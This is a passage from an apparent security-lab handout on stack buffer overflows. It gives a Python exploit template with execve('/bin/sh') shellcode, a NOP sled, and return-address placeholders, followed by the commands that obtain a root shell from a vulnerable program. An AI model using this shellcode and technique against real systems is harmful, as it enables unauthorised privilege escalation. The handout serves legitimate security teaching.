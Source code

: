 \begin{lstlisting}[language=python]
#!/usr/bin/python3
import sys

shellcode= (
  "\x31\xc0"    # xor   eax, eax
  "\x50"        # push  eax
  "\x68""//sh"  # push  0x68732f2f
  "\x68""/bin"  # push  0x6e69622f
  "\x89\xe3"    # mov   ebx, esp
  "\x50"        # push  eax
  "\x53"        # push  ebx
  "\x89\xe1"    # mov   ecx, esp
  "\x31\xd2"    # xor   edx, edx 
  "\x31\xc0"    # xor   eax, eax 
  "\xb0\x0b"    # mov   al, 0x0b
  "\xcd\x80"    # int   0x80
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

# Put the shellcode at the end
start = 517 - len(shellcode)
content[start:] = shellcode

#########################################################################
ret    = 0xAABBCCDD   # replace 0xAABBCCDD with the correct value
offset = 0            # replace 0 with the correct value

# Fill the return address field with the address of the shellcode
content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
#########################################################################

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
\end{lstlisting}

After you finish the above program, run it. This will generate
the contents for \texttt{badfile}. Then run the vulnerable 
program {\tt stack}. If your exploit is implemented correctly, you should 
be able to get a root shell:  

\begin{lstlisting}
$./exploit.py     // create the badfile
$./stack          // launch the attack by running the vulnerable program
# <---- Bingo! You've got a root shell! 
\end{lstlisting}
 

\paragraph{C version.}
The C version of the exploit code is called 
\texttt{"exploit.c"}. Its code is to construct contents 
for \texttt{badfile}. In this code, the shellcode is given to you. 
You need to develop the rest. 


